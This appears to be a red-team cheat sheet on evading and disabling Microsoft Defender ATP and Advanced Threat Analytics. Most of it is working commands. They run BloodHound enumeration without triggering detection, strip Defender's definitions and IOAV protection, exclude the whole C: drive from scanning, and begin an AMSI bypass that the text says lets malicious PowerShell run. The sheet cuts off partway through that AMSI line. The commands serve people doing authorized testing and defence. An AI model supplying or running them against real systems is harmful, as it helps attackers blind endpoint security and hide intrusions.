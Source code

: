 # Evading MS Advanced Threat Protection



### Evading, Bypassing, and Disabling MS Advanced Threat Protection and Advanced Threat Analytics <a id="evading-bypassing-and-disabling-ms-advanced-threat-protection-and-advanced-threat-analytics"></a>

PowerShell Downgrade Check in Cobalt

```text
powershell Invoke-Command -ComputerName <compname> -ScriptBlock {Get-WindowsFeature PowerShell -V2}
```

[https://www.youtube.com/watch?time\_continue=1&v=fDs9av\_pBaU](https://www.youtube.com/watch?time_continue=1&v=fDs9av_pBaU)

[https://www.youtube.com/watch?v=2HNuzUuVyv0](https://www.youtube.com/watch?v=2HNuzUuVyv0)

[https://www.blackhat.com/docs/eu-17/materials/eu-17-Thompson-Red-Team-Techniques-For-Evading-Bypassing-And-Disabling-MS-Advanced-Threat-Protection-And-Advanced-Threat-Analytics.pdf](https://www.blackhat.com/docs/eu-17/materials/eu-17-Thompson-Red-Team-Techniques-For-Evading-Bypassing-And-Disabling-MS-Advanced-Threat-Protection-And-Advanced-Threat-Analytics.pdf)

#### Key Sections: <a id="key-sections"></a>

**Block All Windows Defender/ATP Comms via FW \(Privileged\)**

**Not Detected: Using LDAP/Powerview To Gather Computers/Users**

**Enumeration via WMI Local Name Space**

**Not Detected: Session Enumeration By Excluding DC’s \(Useful for not flagging if need similar results from BloodHound / UserHunter\)**

**Not Detected: Session Enumeration By Excluding DC’s**

`Invoke-BloodHound –ExcludeDc`

Not Detected: Enumerating AD Access Control Entries

```text
Invoke-BloodHound -CollectionMethod ACL –ExcludeDC
```

**great way to turn off defender and remove previous definitions \(set to factory default\)**

```text
"c:\program files\windows defender\mpcmdrun.exe" -RemoveDefinitions -All Set-MpPreference -DisableIOAVProtection $true
```

**if it comes back to life add the C:\ as an exclusion path so it wont flag anything on C:**

```text
Add-MpPreference -ExclusionPath "C:\"
```

**turn off amsi, can run malicious powershell now**

```text
"[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','No
```

